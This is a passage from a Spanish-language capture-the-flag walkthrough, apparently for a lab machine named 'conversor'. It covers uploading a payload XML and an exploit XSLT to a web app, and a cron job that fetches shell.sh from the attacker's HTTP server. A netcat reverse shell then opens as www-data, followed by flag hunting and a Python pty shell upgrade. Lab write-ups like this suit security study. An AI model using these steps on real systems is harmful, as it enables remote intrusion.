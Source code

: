 Necesitamos un XML válido para acompañar el XSLT:

**Archivo: `payload.xml`**

```xml
<?xml version="1.0"?>
<root>
    <data>test</data>
</root>
```

### Paso 5: Subir los Archivos

Accedemos a la aplicación web y subimos:
1. **XML File**: `payload.xml`
2. **XSLT File**: `exploit.xslt`

### Paso 6: Verificar en el Servidor HTTP

En tu servidor HTTP deberías ver:

```
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

### Paso 7: Esperar el Cron Job

El cron se ejecuta cada minuto. Después de máximo **60 segundos**, verás:

**En el servidor HTTP:**
```
10.10.11.x - - [31/Oct/2024 15:23:45] "GET /shell.sh HTTP/1.1" 200 -
```

**En el listener de netcat:**
```
Connection received on 10.10.11.x 54321
www-data@conversor:/$
```

¡**Shell obtenida!** 🎉

### Paso 8: Post-Explotación

```bash
# Verificar usuario
whoami
# Output: www-data

# Buscar la flag
find / -name "flag.txt" 2>/dev/null
cat /flag.txt

# O mejorar la shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

---